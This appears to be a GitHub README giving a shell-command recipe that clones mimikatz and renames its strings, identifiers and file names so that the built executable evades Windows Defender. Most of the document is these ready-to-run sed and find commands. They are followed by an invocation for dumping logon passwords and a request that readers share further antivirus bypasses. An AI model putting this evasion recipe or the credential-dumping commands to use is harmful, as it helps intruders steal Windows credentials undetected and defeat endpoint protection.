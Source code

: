 # Simple Mimikatz "Obfuscator"

### **Tested in**
**Defender**: Security Intelligence (yeah...) Version **1.299.423.0**

**Windows**: **1903** (OS Build **18362.239**)

## Description 
The following set of commands, will download the latest version of mimikatz and make a few changes to the source code, in order to bypass Defender. I **have only tested with logonpasswords** (**logonpassword** after the changes...). If you want other modules, and Defender complaints, i suppose that one more "sed" will do the job...

I do not really use to use mimikatz from an executable (i really prefer the "Cobalt Strike" way), but i was curious how difficult could be to bypass the Defender. 

## It is that difficult 

    git clone https://github.com/gentilkiwi/mimikatz.git windows
    mv windows/mimikatz windows/windows
    find windows/ -type f -print0 | xargs -0 sed -i 's/mimikatz/windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/MIMIKATZ/WINDOWS/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Mimikatz/Windows/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DELPY/gweep/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Benjamin/gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/benjamin@gentilkiwi.com/@gweeperx/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/creativecommons/notcommons/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/gentilkiwi/MSOffice/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/KIWI/ONEDRIVE/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/Kiwi/Onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/kiwi/onedrive/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/DumpCreds/DumpCred/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/logonPasswords/logonPassword/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/ArgumentPtr/NotTodayPal/g'
    find windows/ -type f -print0 | xargs -0 sed -i 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' 
    
    
    
    find windows/ -type f -name '*mimikatz*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/mimikatz/windows/g')";
    	mv "${FILE}" "${newfile}";
    done
    find windows/ -type f -name '*kiwi*' | while read FILE ; do
    	newfile="$(echo ${FILE} |sed -e 's/kiwi/onedrive/g')";
    	mv "${FILE}" "${newfile}";
    done
    
    cd ./windows/windows/
    sed -i "0,/#if \!defined(_POWERKATZ)/! {0,/#if \!defined(_POWERKATZ)/ s/#if \!defined(_POWERKATZ)/\/*\r\n#if \!defined(_POWERKATZ)/}" windows.c
    sed -i "0,/#endif/! {0,/#endif/! {0,/#endif/ s/#endif/#endif\r\n*\//}}" windows.c

And probably not all of these are needed, but who cares.
## PoC
[https://youtu.be/OMktHYpzOi4](https://youtu.be/OMktHYpzOi4)
## How To

You can only invoke it with arguments:

> *windows.exe privilege::debug sekurlsa::**logonpassword***

## Commit

Although i targeted Defender, based on antiscan.me there is a **detection rate 9/26** . ~~I will try to bypass the 9 remaining~~  
If you find other signatures and you want to share, please feel free to commit.

## References

Of course all credits go to: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) 

This guy created this amazing tool and gave it to all of us. 

I "stole" a lot from the following articles:

[https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY](https://weekly-geekly.github.io/articles/454758/index.html?fbclid=IwAR1tAuqz7SqYE9yXoIBOruVwEQ0BueQZqmL6Gse2T6Cb1eWBma7zIceJhXY)

[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/?fbclid=IwAR1LQjnmRzhXnlOtMfCbPVhYgUVdgu8xRiAwOJPg-7eIFjZgjEI8--548W0)



And i almost copied paste from the following:

[https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517](https://gist.github.com/JonnyBanana/96331b350f99d267e07da16246724517)
thx JonnyBanana

Supper difficult ha?
